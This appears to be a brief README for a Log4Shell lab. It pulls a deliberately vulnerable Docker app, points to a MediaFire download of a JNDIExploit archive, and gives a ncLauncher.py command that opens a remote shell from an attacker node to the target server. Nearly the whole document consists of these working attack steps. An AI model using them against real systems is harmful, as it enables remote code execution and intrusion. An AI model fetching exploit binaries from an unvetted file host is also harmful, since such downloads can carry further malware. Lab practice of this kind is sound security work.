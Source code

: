 ## Setup a vulnerable environment
```
docker pull ghcr.io/christophetd/log4shell-vulnerable-app:latest
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

## Locate an example of the exploit
```
https://download1320.mediafire.com/8nkrfr49l20g/dm0qgwujkwcy585/JNDIExploit.v1.2.zip
f04eb18c91314b1d9f7d02a2b64a7aa2ccc5134e24c135c54dae5205b90a653b1ec97aeb6e0ea0e288d791e81056e3e14f92ca7171c02cbd6c472247f1c9caaa  JNDIExploit.v1.2.zip
```

## Pop a shell
Where 192.168.10.151 is the node to run the attack from and 192.168.10.94 is the vulnerable server:
```
python3 ./ncLauncher.py --hip 192.168.10.151 --hpt 8080 --lip 192.168.10.151 --lpt 1389 --nip 192.168.10.151 --npt 4444 --tip 192.168.10.94 --tpt 8080
```
